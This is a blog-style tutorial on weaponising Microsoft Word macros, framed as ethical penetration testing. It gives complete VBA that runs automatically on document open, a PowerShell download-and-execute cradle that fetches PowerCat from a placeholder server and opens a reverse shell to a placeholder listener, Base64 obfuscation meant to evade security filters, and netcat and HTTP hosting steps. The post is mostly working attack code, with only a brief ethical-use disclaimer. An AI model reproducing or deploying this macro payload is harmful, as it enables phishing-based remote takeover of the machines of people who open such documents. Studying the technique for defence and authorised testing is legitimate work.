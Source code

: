 ```yaml
---
layout: post
title: "Windows Macro Exploitation"
date: 2024-11-01
categories: Exploitation
---
```


# Windows Macro Exploitation for Ethical Penetration Testing

## Table of Contents

1. [Introduction to Microsoft Word Macros](#introduction-to-microsoft-word-macros)
2. [Creating a Malicious Macro](#creating-a-malicious-macro)
3. [Automating Macro Execution](#automating-macro-execution)
4. [Creating a Reverse Shell with PowerCat](#creating-a-reverse-shell-with-powercat)
5. [Finalizing the Macro](#finalizing-the-macro)
6. [Testing and Execution](#testing-and-execution)
7. [Summary and Best Practices](#summary-and-best-practices)

---

## Introduction to Microsoft Word Macros

Microsoft Word macros enable automation of repetitive tasks through Visual Basic for Applications (VBA). When conducting ethical penetration testing, macros can serve as a vector to execute commands on a target machine if the target enables macros upon opening the document.

### Key Points

- **File Formats**: Use `.doc` or `.docm` formats to support macros. The `.docx` format does not support embedded macros.
- **Scripting Language**: VBA provides access to ActiveX objects and Windows Script Host, enabling low-level system commands.

---

## Creating a Malicious Macro

1. **Create and Save the Document**:
   - Open Microsoft Word and create a blank document. Save it as `test_macro.doc` with the `.doc` extension to support macros.

2. **Access the Macro Editor**:
   - In the document, go to `View > Macros > View Macros`.
   - Enter `AutoMacro` as the macro name and select `test_macro.doc` in the dropdown. Then, click **Create**.

3. **Define Basic Macro Code**:
   - In the Visual Basic for Applications (VBA) editor, add the following code to open a PowerShell window:

     ```vba
     Sub AutoMacro()
         CreateObject("Wscript.Shell").Run "powershell"
     End Sub
     ```

   This code opens a PowerShell session upon executing the macro.

4. **Save the Document**:
   - Save your macro code within the editor, and close it to return to the document.

---

## Automating Macro Execution

To ensure the macro executes automatically upon opening, add `AutoOpen` and `Document_Open` subroutines to the VBA code. These procedures call `AutoMacro` when the document opens.

```vba
Sub AutoOpen()
    AutoMacro
End Sub

Sub Document_Open()
    AutoMacro
End Sub

Sub AutoMacro()
    CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

This ensures the macro will automatically execute if the user enables macros.

---

## Creating a Reverse Shell with PowerCat

Once the macro execution is automated, the next step is to create a reverse shell using PowerCat.

1. **Prepare the PowerShell Command**:
   - The reverse shell connects back to the tester’s machine using PowerCat, a PowerShell utility that facilitates reverse shells. The base command looks like this:

     ```powershell
     IEX(New-Object System.Net.WebClient).DownloadString('http://[YOUR_SERVER_IP]/powercat.ps1');powercat -c [LISTEN_IP] -p [PORT] -e powershell
     ```

   - Replace `[YOUR_SERVER_IP]`, `[LISTEN_IP]`, and `[PORT]` with your testing machine’s IP and the designated listening port.

2. **Base64-Encode the Command**:
   - To avoid character encoding issues, convert the command to Base64 format. On Linux or Mac, use:

     ```bash
     echo -n "powershell-command" | iconv -t utf-16le | base64
     ```

3. **Automate String Concatenation Using Python**:
   - Since VBA limits each line to 255 characters, split the Base64-encoded string into smaller chunks, around 50 characters each. The following Python script can split and format the string for VBA:

     ```python
     str = "base64-encoded-string"
     n = 50  # Define chunk size

     for i in range(0, len(str), n):
         print('Str = Str + "' + str[i:i+n] + '"')
     ```

   - Replace `"base64-encoded-string"` with the actual Base64 string. The script will output VBA-friendly lines such as:

     ```vba
     Str = Str + "QWxsIGNoYXJhY3RlcnMgYW5kIHNwYWNlcyBoYXZl"
     Str = Str + "IGJlZW4gY29kZWQgdG8gYmFzZTY0IGZvciBlYXNl"
     ```

---

## Finalizing the Macro

In the `AutoMacro()` function, combine `AutoOpen` and `Document_Open` with the PowerShell command that launches PowerCat. Here’s the complete VBA code:

```vba
Sub AutoOpen()
    AutoMacro
End Sub

Sub Document_Open()
    AutoMacro
End Sub

Sub AutoMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -enc "
    
    ' Add the Base64-encoded PowerShell command in chunks
    Str = Str + "QWxsIGNoYXJhY3RlcnMgYW5kIHNwYWNlcyBoYXZl"
    Str = Str + "IGJlZW4gY29kZWQgdG8gYmFzZTY0IGZvciBlYXNl"
    ' Additional lines continue here
    Str = Str + "IG9mIHJlYWRhYmlsaXR5IGFuZCBjb25zaXN0ZW5j"
    Str = Str + "eSBpbiBwcm9kdWNpbmcgc3RyaW5ncw=="

    ' Execute the command
    CreateObject("Wscript.Shell").Run Str
End Sub
```

In this script:

- Each `Str = Str + "..."` line adds a 50-character segment of the encoded PowerShell command to the `Str` variable.
- After constructing the command, `CreateObject("Wscript.Shell").Run Str` executes it in a hidden PowerShell session.

---

## Testing and Execution

### Steps

1. **Start a Listener**:
   - Open a Netcat listener on `[PORT]` to receive the reverse shell connection.

     ```bash
     nc -lvnp [PORT]
     ```

2. **Host PowerCat**:
   - Start a simple Python web server to host `powercat.ps1`:

     ```bash
     python3 -m http.server 80
     ```

3. **Open the Document and Enable Macros**:
   - Open `test_macro.doc`, and when prompted, enable macros.
   - The macro will execute, triggering a connection back to the listener.

4. **Verify Reverse Shell**:
   - If successful, you should see a reverse shell session from the target machine on your listener.

---

## Summary and Best Practices

- **Ethical Use**: Only use these techniques with explicit permissions. Unauthorized use is illegal.
- **Understanding Macro Execution**: Be aware that many environments restrict macro execution.
- **Base64 Encoding**: Encoding PowerShell commands helps avoid issues with special characters and security filters.
- **VBA Limitations**: Using Python to split long strings helps accommodate VBA’s line character limits.
